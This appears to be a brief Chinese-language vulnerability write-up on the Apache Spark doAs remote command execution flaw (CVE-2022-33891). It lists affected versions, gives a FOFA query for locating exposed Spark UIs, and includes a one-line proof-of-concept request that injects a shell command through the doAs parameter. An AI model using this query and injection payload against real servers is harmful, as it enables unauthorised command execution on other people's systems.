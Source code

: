 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## FOFA

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](./images/202209091043173.png)

验证POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](./images/202209091044113.png)